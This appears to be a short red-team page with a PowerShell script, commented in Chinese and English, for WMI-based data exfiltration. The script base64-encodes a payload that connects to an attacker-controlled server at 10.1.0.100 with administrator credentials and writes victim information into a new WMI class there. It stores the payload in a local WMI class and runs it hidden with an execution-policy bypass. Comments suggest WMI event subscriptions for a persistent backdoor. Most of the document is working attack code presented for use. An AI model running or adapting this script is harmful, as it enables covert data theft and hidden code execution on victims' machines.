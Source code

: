     Client - Victim : OWA2013 - 10.1.0.213

    SERVER : 10.1.0.100
        Username:administrator
        Password:xx

脚本

```powershell
# Victim running this ps1 ,  put info to my server
#连接10.1.0.100  , my server
$payload=@'
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'administrator'
$Options.Password = 'xx'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
## 连接到远程计算机  or ManagementScope scope = new ManagementScope("\\\\FullComputerName\\root\\cimv2", options);scope.Connect();
$Connection.Path = '\\10.1.0.100\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
## https://docs.microsoft.com/zh-cn/dotnet/api/system.management.managementclass?view=netframework-4.7.2 
# -> ManagementClass(ManagementScope, ManagementPath, ObjectGetOptions)
# 使用指定选项为指定的 WMI 类初始化 ManagementClass 类的一个新实例
# C# public ManagementClass (System.Management.ManagementScope scope, System.Management.ManagementPath path, System.Management.ObjectGetOptions options);
# https://docs.microsoft.com/zh-cn/dotnet/api/system.management.managementclass.-ctor?view=netframework-4.7.2#System_Management_ManagementClass__ctor_System_Management_ManagementScope_System_Management_ManagementPath_System_Management_ObjectGetOptions_
# 
#新建远程类名 Victim_Info , 存储 Victim info 
$EvilClass['__CLASS'] = 'Victim_Info'
$EvilClass.Properties.Add('victim_ip_10_1_0_213', [Management.CimType]::String, $False)
$GetDate = Get-Date # bGet-WmiObject -Namespace ROOT\CIMV2 -Class Win32_ComputerSystem
$EvilClass.Properties['victim_ip_10_1_0_213'].Value = "Run Command Process : $GetDate"
# Run Command or 获取主机配置信息... : 1. $GetProcess = Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Process 2. $GetProcess
$EvilClass.Put() # ManagementClass - put 提交对象所做的更改
'@
#对payload作base64加密
$bytes = [System.Text.Encoding]::Unicode.GetBytes($payload);
$encodedPayload = [System.Convert]::ToBase64String($bytes);

#新建本地类 Victim_EncodeCommand_Class 存储加密后的payload
$StaticClass = New-Object Management.ManagementClass('root\cimv2',$null,$null)
$StaticClass.Name = "Victim_EncodeCommand_Class"    # = StaticClass['__CLASS'] = 'Victim_EncodeCommand_Class'
$StaticClass.put()
$StaticClass.Properties.Add('EncodeCommand',$encodedPayload)
$StaticClass.put()

#读取加密payload
$EncodedPayload=([WmiClass] 'Victim_EncodeCommand_Class').Properties['EncodeCommand'].Value
#PowerShell直接执行命令 or wmi 永久事件订阅作为持久化后门执行
$PowerShellPayload = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -enc $EncodedPayload"
Invoke-WmiMethod  -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
#显示解密指令
$bytes2  = [System.Convert]::FromBase64String($EncodedPayload);
$decoded = [System.Text.Encoding]::Unicode.GetString($bytes2); 
"decoded Payload:"
$decoded
```